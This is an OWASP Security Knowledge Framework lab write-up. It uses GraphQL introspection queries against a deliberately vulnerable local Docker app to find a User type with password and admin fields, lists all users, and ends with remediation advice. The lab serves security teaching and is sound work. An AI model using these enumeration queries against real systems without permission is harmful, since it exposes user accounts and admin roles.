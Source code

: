 # GraphQL Introspection

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-graphql-info-introspection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-graphql-info-introspection
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

![](../../.gitbook/assets/java/GraphQL-Introspections/1.png)

## Exploitation

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported.

Let' use the `GraphiQL` UI to send queries to the backend and discover what is available.

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `User` one. If we build another query we can ask for more information, exploring every field available. Let's send the following:

```
{
	__type(name: "User"){
    name
    fields{
      name
    }
  }
}
```

In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```json
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "id"
        },
        {
          "name": "username"
        },
        {
          "name": "password"
        },
        {
          "name": "admin"
        }
      ]
    }
  }
}
```

> BINGO! We have some good information here

We can see that there is an interesting field `admin`, that we can use to find out who is the admin of the application.

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
{
	__schema{
    queryType{
      fields{
        name
        description
      }
    }
  }
}
```

That will give us the `findAllUsers` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
	findAllUsers{
    username
    admin
  }
}
```

![](../../.gitbook/assets/java/GraphQL-Introspections/2.png)

## Solution

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.

## Additional resources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html" %}
